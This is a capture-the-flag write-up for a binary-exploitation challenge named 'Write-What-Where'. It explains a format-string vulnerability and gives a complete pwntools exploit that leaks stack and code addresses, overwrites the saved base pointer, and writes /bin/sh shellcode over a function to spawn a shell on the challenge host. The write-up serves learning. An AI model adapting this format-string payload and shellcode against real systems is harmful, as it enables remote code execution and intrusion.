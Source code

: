 # Write-What-Where

Note : It goes without mentioning that my solution is a little more complicated & time-consuming debuggin-wise,<br>
but I enjoyed solving it this way, please refer to [the author's original write-up]() for the simpler intended solution.

# Description
The path is clear, but do you know how to get there<br>
Category: PWN<br>
(The code was also provided)

# Why did my mind think this way?

Before solving this challenge, we worked on a reversing challenge that we solved using ChatGPT,<br>
it was just some assembly code comparing the input to the flag char by char, and I noticed that the RBP pointer (and not the RSP pointer)<br>
is the one used to calculate the offset of the buffer in the stack, (I knew this before, but because I saw it again, it registered in the back of my mind)<br>

# Discovery
![](./chall.png)

# Vulnerabilities
If we check the code, we notice that there is a format-string vulnerbility in the print_name function
```c
void print_name(char name[NAME_SIZE]){
    printf(name); // format string :)
}
```

# TL;DR

Technically we can exploit this vuln to overwrite some function code in the code segment with our own shellcode,<br>
but what i did was:<br>
1 Overwrite the RBP pointer using the format-string, to make it point to the menu function in the code segment<br>
2 Use the get_name function to overwrite the menu function code in the code segment with our shellcode.<br>
3 When the menu function gets executed in the next loop iteration, a shell will be poped instead :)<br>

# Exploit

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./chall")
context.binary = exe

shellcode = "\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

def conn():
    return remote("write-what-where.ctf.shellmates.club", 443, ssl=True)


def main():
    for i in range(10):
        r = conn()

        # Leaking stack & code addresses
        r.recvuntil(b'Choice')
        r.sendline(b'1')
        r.sendline(b'%7$p\n%9$p')
        r.recvuntil(b'Choice:')
        r.sendline(b'2')
        rbp_addr = int(r.recvline().strip(), 16)  - 0x30
        menu_addr = int(r.recvline().strip(), 16) - 3
        log.info(f"Leaking base pointer address :: {hex(rbp_addr)}")
        log.info(f"Leaking menu function address :: {hex(menu_addr)}")

        r.recvuntil(b'Choice')
        r.sendline(b'1')

        # forming the format-string payload
        left = (menu_addr >> 32) - 12 #12 'a' at the start of the payload
        right = (menu_addr & 0xffffffff) - left #offset of aaaaaa and already written bytes

        s = f'aaaaaaaaaaaa%{str(left)}c%19$n%{str(right)}c%20$n'
        if len(s) != 40:
            log.info(f"bad payload length :: {len(s)}")
            print(s)
            r.close()
            continue

        # overwriting the RBP pointer with a menu function pointer (minus some offset)
        r.sendline(flat(b'aaaaaaaaaaaa%', str(left), b'c%19$n%', str(right), b'c%20$n', p64(rbp_addr+4), p64(rbp_addr)))
        r.recvuntil(b'Choice:')
        r.sendline(b'2')

        # Overwriting menu function code with shellcode using get_name option
        r.recvuntil(b'Choice:')
        r.sendline(b'1')
        r.sendline(flat(shellcode))
        r.interactive()


if __name__ == "__main__":
    main()
```
# Flag from tty

I ran my exploit on my second thinkpad (that had only arch installed with no display manager, because my main laptop was acting up)
![](../flag.jpg)
